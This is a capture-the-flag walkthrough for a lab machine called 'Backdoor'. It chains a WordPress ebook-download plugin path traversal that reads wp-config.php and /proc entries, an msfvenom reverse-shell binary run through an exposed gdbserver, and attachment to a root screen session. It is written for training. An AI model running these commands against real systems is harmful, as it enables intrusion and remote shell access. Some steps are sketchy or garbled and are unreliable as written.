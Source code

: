 backdoor
---

## Steps

1. Finding plugins

After fuzzing, we find that `/wp-content/` is readable. We go to `/wp-content/plugins` to that ebook-download plugin is installed

https://www.exploit-db.com/exploits/39575

`/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`


2. enumerating processes

```
for val in range (1,1000):
    get "/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/val/cmdline"

```

we see two processes running, GDB at 0.0.0.0:1337, and Screen. We will come back to screen later


3. GDB and shell

Create reverse connection binary

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o /tmp/rev.elf
```

```
On attacker machine
---
$ gdb

$ target remote 10.10.11.125:1337

$ cd /tmp

$ remote put rev.elf rev.elf

$ set remote exec-file /home/user/rev.elf

$ b main

$ run
```

This should give you user shell

## Root flag

Get the user flag

## Root Flag

Earlier we saw that Screen was running as root

We simply attach to that screen to get a root shell

```
$ ps aux | grep screen

$ screen -x root/root
```
